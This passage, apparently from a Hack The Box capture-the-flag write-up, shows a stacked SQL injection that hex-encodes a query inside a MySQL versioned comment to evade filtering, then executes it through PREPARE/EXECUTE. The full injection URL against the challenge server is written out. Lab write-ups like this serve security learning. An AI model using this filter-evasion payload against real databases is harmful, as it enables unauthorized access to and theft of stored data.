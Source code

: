 Remember what we have mentioned before about `/*! */` we found out that if you put hex in it it will actually  interpret it and convert it into ascii with the condition that it has to start with `0x`  and that's what we need.     
Let's first try it locally `Since i am a lazy boy I picked the first online website that offers mysql support` , after creating a table called `flags` with a column called `flag`,I tried to select flag.   
```
statement : Select flag from flags
Hex representation : 53656c65637420666c61672066726f6d20666c616773
```
![local test](img/9.png)  
Bingo ! it worked , now we just need to perform it on the server   
The query to execute : 
```
Select flag from definitely_not_a_flag
```
Hex representation :
```
53656c65637420666c61672066726f6d20646566696e6974656c795f6e6f745f615f666c6167
```
Full command :
```
;set+@query+=+/*!0x53656c65637420666c61672066726f6d20646566696e6974656c795f6e6f745f615f666c6167*/+;prepare+my_query+from+@query+;execute my_query;
```
Let's Try it on the server :
```
http://docker.hackthebox.eu:30911/?user=\&pass=;set+@query+=+/*!0x53656c65637420666c61672066726f6d20646566696e6974656c795f6e6f745f615f666c6167*/+;prepare+my_query+from+@query+;execute my_query;
```
![flag](img/flag.png)    
It worked , we finally got it  

##### Flag :   
